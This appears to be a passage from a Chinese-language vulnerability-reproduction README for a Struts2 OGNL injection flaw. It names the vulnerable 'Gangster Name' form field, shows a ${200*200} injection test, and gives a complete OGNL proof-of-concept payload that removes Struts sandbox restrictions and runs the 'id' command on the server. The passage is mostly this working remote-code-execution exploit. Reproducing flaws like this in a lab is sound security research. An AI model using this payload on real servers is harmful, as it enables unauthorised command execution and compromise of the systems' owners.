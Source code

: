   - 触发OGNL表达式的位置是 Gangster Name 这个表单。
  - 输入 ${200*200} 即可查看执行结果（剩下两个表单随意填写）：

    ![Alt text](images/image05.png)

  - poc
  ```java
  %{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?
  (#_memberAccess=#dm):
  ((#container=#context['com.opensymphony.xwork2.ActionContext.container']).
  (#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
  (#ognlUtil.getExcludedPackageNames().clear()).
  (#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).
  (#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec
  ('id').getInputStream())).(#q)}
  #id 返回当前用户的信息
  ```
  ![Alt text](images/image06.png)
